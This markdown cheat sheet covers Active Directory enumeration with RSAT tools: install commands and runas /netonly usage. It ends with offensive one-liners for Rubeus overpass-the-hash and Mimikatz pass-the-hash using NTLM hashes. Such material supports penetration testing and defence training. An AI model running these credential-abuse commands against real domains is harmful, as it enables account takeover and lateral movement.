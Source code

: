 

# Active Directory Enumeration with RSAT – Command Summary

RSAT (Remote Server Administration Tools) allows administrators to remotely manage Windows Server roles and features, including Active Directory, DNS, DHCP, and Group Policy from a Windows workstation (Pro/Enterprise editions only).

RSAT includes:
- Active Directory Users and Computers
- ADSI Edit
- Group Policy Tools
- DNS/DHCP Management
- PowerShell AD Module
- MMC Snap-ins

---

## 🔍 Check Installed RSAT Tools



```powershell
Get-WindowsCapability -Name RSAT* -Online | Select-Object -Property Name, State
````

---

## **📦 Install RSAT Tools**

  https://gist.github.com/dually8/558fcfa9156f59504ab36615dfc4856a
  
  https://learn.microsoft.com/en-us/troubleshoot/windows-server/system-management-components/remote-server-administration-tools

### **Install All RSAT Tools**

```
Get-WindowsCapability -Name RSAT* -Online | Add-WindowsCapability –Online
```

### **Install a Specific Tool (e.g., AD Tools)**

```
Add-WindowsCapability -Name Rsat.ActiveDirectory.DS-LDS.Tools~~~~0.0.1.0 –Online
```

---

## **👤 Use Alternate User Credentials with runas**


### **Start PowerShell as a Domain User**

```
runas /netonly /user:DOMAIN\USERNAME powershell
```

### **Start MMC as a Domain User**

```
runas /netonly /user:DOMAIN\USERNAME mmc
```

After MMC opens:

1. Add RSAT Snap-ins (e.g., Active Directory Users and Computers).
    
2. Right-click the snap-in → **Change Domain** → Enter domain name (e.g., corp.local).
    

---

## **🛡️ Credential-Based Enumeration**

 ### **Use Rubeus to Request a TGT with NTLM Hash**

```
rubeus.exe asktgt /user:USERNAME /domain:peach.local /dc:DC_IP /rc4:NTLM_HASH
```

### **Use Mimikatz for Pass-the-Hash**

```
mimikatz.exe sekurlsa::pth /domain:corp.local /user:USERNAME /rc4:NTLM_HASH
```

---

